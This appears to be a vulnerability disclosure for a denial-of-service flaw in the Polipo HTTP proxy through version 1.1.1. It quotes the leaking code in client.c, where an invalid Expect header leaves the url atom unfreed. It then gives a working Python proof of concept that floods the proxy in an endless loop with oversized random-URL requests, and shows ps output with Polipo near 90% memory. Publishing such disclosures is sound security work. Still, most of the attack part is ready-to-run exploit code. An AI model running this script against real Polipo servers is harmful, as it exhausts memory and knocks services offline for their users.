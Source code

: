 Polipo through 1.1.1,allows remote attackers to cause a denial of service，

When users continuously send maliciously constructed HTTP requests to Polipo, Polipo memory leaks, resulting in a denial of service attack

# reason

client.c file:

```c
int
httpClientRequest(HTTPRequestPtr request, AtomPtr url)
{
........................
    i = httpParseHeaders(1, url,
                         connection->reqbuf, connection->reqbegin, request,
                         &headers, &body_len, 
                         &cache_control, &condition, &body_te,
                         NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL,
                         &expect, &range, NULL, NULL, &via, &auth);
    if(i < 0) {
        releaseAtom(url);
        do_log(L_ERROR, "Couldn't parse client headers.\n");
        shutdown(connection->fd, 0);
        request->flags &= ~REQUEST_PERSISTENT;
        connection->flags &= ~CONN_READER;
        httpClientNoticeError(request, 503,
                              internAtom("Couldn't parse client headers"));
        return 1;
    }
........................
    if(expect) {
        if(expect == atom100Continue && REQUEST_SIDE(request)) {
            request->flags |= REQUEST_WAIT_CONTINUE;
        } else {
            httpClientDiscardBody(connection);
            httpClientNoticeError(request, 417,
                                  internAtom("Expectation failed"));
            releaseAtom(expect);
            return 1;
        }
        releaseAtom(expect);
    }

........................
}
```

When the expect variable's value is invalid, the url variable is not freed, which leads to server memory leaks and thus denial-of-service

# poc

```Python
#!/bin/python3
import socket
import random
import threading

host = '127.0.0.1'
port = 8123
bigBufferSize = (32 * 1024)
ascii_chars = [chr(i) for i in range(33, 127)]

while True:
    client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client_socket.connect((host, port))
    evil_url = ''.join(random.choices(ascii_chars, k=32700))
    data = ("GET "+ evil_url + " HTTP/1.0" +"\nexpect:CCC\n\n").encode()
    client_socket.sendall(data)
    client_socket.close()
```

# result

```
sysirq@debian:~$ ps -p 12141 -o %mem,rss,vsz,cmd
%MEM   RSS    VSZ CMD
90.0 7320868 8180100 ./polipo
sysirq@debian:~$ ps -p 12141 -o %mem,rss,vsz,cmd
%MEM   RSS    VSZ CMD
```

